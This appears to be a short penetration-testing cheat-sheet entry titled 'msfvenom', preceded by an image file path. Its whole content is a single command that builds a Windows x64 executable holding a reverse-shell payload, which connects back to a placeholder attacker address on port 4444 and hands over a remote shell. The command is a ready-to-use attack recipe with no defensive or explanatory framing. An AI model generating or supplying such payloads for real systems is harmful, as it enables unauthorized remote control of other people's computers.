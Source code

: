 # msfvenom

Create a reverse shell for Windows with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=IPADDRESS LPORT=4444 -f exe -o reverse.exe
```

